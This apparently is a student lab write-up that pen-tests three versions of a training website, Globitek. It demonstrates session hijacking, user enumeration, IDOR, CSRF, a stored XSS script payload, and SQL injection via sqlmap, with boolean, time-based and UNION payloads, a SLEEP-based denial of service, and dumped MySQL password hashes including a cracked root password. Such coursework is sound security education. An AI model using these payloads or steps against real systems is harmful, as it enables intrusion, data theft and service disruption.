 #  Pen Testing Live Targets

Time spent: 15 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

# Vulnerability #1: Session Hijacking

Description: 

A Session Hijacking attack is an exploit that seeks to manipulate the web session control mechanism by sending a request to a web server with an authenticated SessionID, Cookie, or a combination of both. Web servers grant a token to a client browser after authentication; said token can be used to hijack another user's session. By masquerading your browser token as the authenticated token, the web server will recognize you as an authenticated user, granting you access. 

How to document and recreate this exploit:

1. First visit https://104.198.208.81/blue/public/staff/login.php and log in using the pperson credentials. 
2. Go to https://104.198.208.81/blue/public/hacktools/change_session_id.php to see your current PHPSESSIONID, and store that information for later. 
3. Open another browser such as Firefox or Chrome, visit https://104.198.208.81/blue/public/hacktools/change_session_id.php, and copy the authenticated PHPSESSIONID to replace your Session ID. 
4. Next visit https://104.198.208.81/blue/public/login.php; you should see that you are already logged in. 
5. We successfully bypassed authentication.


![Session Hijacking Exploit](https://user-images.githubusercontent.com/111711434/200113050-d1337254-f6f5-4351-b27f-76912f7a5866.gif)


# Vulnerability 2: SQL Injections

Description: 

SQL Injections are an attack that seeks to exploit vulnerabilities in an application's input validation for SQL queries. Malicious code is injected into a query that can reveal data found in the database, such as passwords, usernames, emails, etc.  

How to document and recreate this exploit:

1. First visit https://104.198.208.81/blue/public/staff/login.php and login using the pperson credentials. 
2. Then head on over to URL https://104.198.208.81/blue/public/salesperson.php?id=1 
3. Using BurpSuite, GET request file as a TXT file. We will feed this information to a tool called SQLMap with the following parameter: sqlmap -r /home/kali/sqlmal-dev/request.txt -a (the -a parameter will return EVERYTHING, at times not recommended)
4. SQLMap detects a vulnerability in the 'id=' field and provides us with three SQL injections:
	
   * Parameter: id (GET)
     * Type: boolean-based blind
     * Title: AND boolean-based blind - WHERE or HAVING clause
     * Payload: id=3' AND 2971=2971 AND 'bcTH'='bcTH
    
    Comments after testing: Returned the information for User Irene Boling; see below:
   
   
  * Irene Boling
  * 555-736-2301
  * iboling@salesperson.com

   
   
   * Type: time-based blind
   * Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
   * Payload: id=3' AND (SELECT 8396 FROM (SELECT(SLEEP(5)))PBWw) AND 'pCMl'='pCMl 
   
   
     Comments after testing: Changed (SLEEP(5))))PBWw) to SLEEP(200000))))PBWw, and it created a Denial of Service for the time set. 
   ![Denial of Service after SQL injection  ](https://user-images.githubusercontent.com/111711434/200140448-3da3ba36-f3b6-4bcf-a079-b24d6592906c.png)

   * Type: UNION query
   - Title: Generic UNION query (NULL) - 5 columns
   - Payload: id=-8495' UNION ALL SELECT  CONCAT(0x716b766a71,0x6b544944475a6778655979637a6558776b595163416a567459494a735864556b4f55666875547352,0x7171717a71),NULL,NULL,NULL,NULL-- -


Comments after testing: Redirects to the 'Find a Salesperson' web page.

The scan revelead the following information that can further assist us:
* Web Server OS : Linux Ubuntu 16.04 or 16.10
* Web App Technology: Apache 2.4.18 server
* MySQL version: 5.0.12

Databases:  

* [INFO] fetching database names
* [INFO] resumed: 'globitek_blue'
* [INFO] resumed: 'information_schema'
* [INFO] resumed: 'globitek_blue'
* [INFO] resumed: 'globitek_green'
* [INFO] resumed: 'globitek_red'
* [INFO] resumed: 'mysql'
* [INFO] resumed: 'performance_schema'
* [INFO] resumed: 'sys'



Database management users:                                                                                                                                                                                                     
* 'debian-sys-maint'@'localhost'
* 'mysql.session'@'localhost'
* 'mysql.sys'@'localhost'
* 'root'@'localhost'


Moreover, SQLMap also located & revealed the following password hashes:

[INFO] fetching database users password hashes
  
[INFO] resumed: 'mysql.sys','*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE'

[INFO] resumed: 'debian-sys-maint','*7B88B3A98617F2ED6B4EB4F48AEAD4E1416C359C'

[INFO] resumed: 'mysql.session','*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE'





Using the integrated dictionary-based password cracker (mysql_passwd), the password for root was found:

database management system users password hashes:                                                                                                                               


* debian-sys-maint [1]: password hash: *7B88B3A98617F2ED6B4EB4F48AEAD4E1416C359C
* mysql.session [1]: password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
* mysql.sys [1]: password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
* root [1]: password hash: *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
*                            clear-text password: password




## Green

# Vulnerability #1: User Enumaration 

Description:

User enumeration is a method of discovering users on a database by analyzing the errors returned at a login prompt. An example would be entering credentials and the error displaying as "Unknown user" but trying different credentials and getting a "Password Incorrect or password does not match", which confirms that the user exists in the system. We can then work towards obtaining their password credentials through other means.

How to document and recreate this exploit:

1. Visit https://104.198.208.81/green/public/staff/login.php
2. Attempt to log on with a random username & password; you will notice that the error returns as "Login was unsuccessful." However, upon attempting to enter a known user, such as pperson with a wrong password, the same error returned but in bold(different CSS class), confirming the user exists in the database. 


![User Enumeration ](https://user-images.githubusercontent.com/111711434/200143718-b1ebb1ae-5fd7-4d2f-a9ee-1dfd6b6dd1f6.gif)



# Vulnerability #2: Cross Site Scripting (XSS) 

Description: 

Cross-Site Scripting(XSS) is an exploit in which a script can be executed via a web browser on behalf of the web application. The effects of XSS can result in account compromise, deletion, privilege escalation, malware infection, and more.  

Source: https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/

How to document and recreate this exploit:

1. Visit https://104.198.208.81/green/public/
2. Go to https://104.198.208.81/green/public/contact.php; the 'Contact' form is a possible injection point.
   ![image](https://user-images.githubusercontent.com/111711434/200144285-d3869f55-8a9f-479e-911b-a2b0b612a750.png)
     
3. Fill out the fields:
  * Name: Test
  * Email: test@yahoo.com
  * Feedback: <script>alert('In plain sight.');</script  (this is a blind XSS script test) 
4. Hit submit.
5. Log in using the pperson credentials.
6. Head to the Feedback section.
7. We confirmed that the site is vulnerable to XSS. 

![Green XSS](https://user-images.githubusercontent.com/111711434/200143880-9a29cfb5-4871-464d-9bca-4545b404deeb.gif)



## Red

# Vulnerability #1: Insecure Direct Object Reference (IDOR)

	
Description: 

Insecure Direct Object References are a type of vulnerability in which user-supplied input can be used to access data directly, such as (id?=, uid=, pid, etc). If access control is not configured correctly, users can see across other pages by changing the value of the ‘id=’. 

How to document and recreate this exploit:
	
1. Visit https://104.198.208.81/red/public/index.php
2. Head over to https://104.198.208.81/red/public/territories.php and click on any user of interest, in this case I picked bobby (https://104.198.208.81/red/public/salesperson.php?id=1) 
3. Preliminary testing indicates that salesperson.php?id= may be vulnerable. 
 * Tested various values in the ID= field of the URL
 * ID=10 revealed information about 
   Testy McTesterson, and user that is not supposed to be public until September 1st. 
   ![image](https://user-images.githubusercontent.com/111711434/200144425-b4fa5ff2-4ff8-41f7-80bf-95b876e7d9cc.png)
 
	

	
* ID=11 revelead information on Lazy Lazyman, an employee that was fired.
  ![image](https://user-images.githubusercontent.com/111711434/200144538-ad5dce27-82e2-43c7-bca9-d066dccad206.png)

	
	
	
# Vulnerability #2: Cross Site Request Forgery

Description: 

CSRF is an attack that preys on social engineering to execute HTML code to perform malicious actions on an authenticated user. The attack surface of CSRF spans from changing usernames to emails, passwords, and any other action allowed by the user on the site. 
	
	

https://www.geeksforgeeks.org/what-is-cross-site-request-forgery-csrf/
	
How to document and recreate this exploit:	
	
Upon inspection of the HTML form at URL https://35.184.88.145/red/public/staff/salespeople/edit.php?id=1, I noticed that the site accepts any value for the CSRF token. This allowed for the following HTML page to be created to perform a Cross-Site Request Forgery attack to edit the users details. 

![image](https://user-images.githubusercontent.com/111711434/200218318-aa40edc9-f51e-4789-a154-83c5181e0f09.png)

Demonstration:
![red csrf](https://user-images.githubusercontent.com/111711434/200218427-05666440-daf7-43ac-b9d3-2eabca1fa70c.gif)


## Notes

Sources utilized:
1. https://www.geeksforgeeks.org/sql-injection-cheat-sheet/
2. https://www.sqlinjection.net/union/
3. https://github.com/payloadbox/sql-injection-payload-list
4. https://owasp.org/www-community/attacks/Session_hijacking_attack
5. https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
6. https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
	

